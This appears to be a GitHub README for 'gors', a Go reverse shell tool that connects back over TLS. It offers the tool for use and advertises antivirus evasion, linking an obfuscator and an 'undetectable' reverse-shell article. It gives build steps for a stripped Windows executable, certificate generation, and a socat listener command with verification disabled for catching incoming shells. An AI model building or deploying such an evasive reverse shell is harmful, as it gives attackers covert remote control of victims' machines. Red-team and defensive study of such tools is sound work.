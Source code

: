 # gors

portable go based secure reverse shell (self-contained executable)

**Features**

- Interactive shell (use "gorss-interactive.go")
- TLS connectivity

**Why Go?** 
 
- https://medium.com/@sathish__kumar/undetectable-reverse-shell-with-golang-4fd4b1e172c1
- https://github.com/sathish09/rev2go

**AV bypass**

Consider leveraging..
- https://github.com/unixpickle/gobfuscate

**Setup**

Generate server certificate or disable client validation (yahoo! pew pew pew!)

```
openssl genrsa -out server.key 2048 
openssl ecparam -genkey -name secp384r1 -out server.key
openssl req -new -x509 -sha256 -key server.key -out server.crt -days 3650
```

Update:
- Configure your listener domain/ip:port
- Configure SSL certificate public key or disable client validation
- gorss-interactive.go: Update script to use "/bin/bash", "/bin/sh", "cmd.exe", etc


**Build for target platform**

Windows:
```
env GOOS=windows GOARCH=386 go build -ldflags "-s -w" -o gors.exe gors.go
```
Use build reference table for specific target architecture.
* https://github.com/sathish09/rev2go#build


**Listener**
```
socat openssl-listen:443,reuseaddr,fork,cert=/tmp/gors/server.pem,cafile=/tmp/gors/server.crt,verify=0 -
```

![image](https://user-images.githubusercontent.com/56988989/69015224-f394b480-0989-11ea-8e42-71038b778e06.png)



Enjoy~
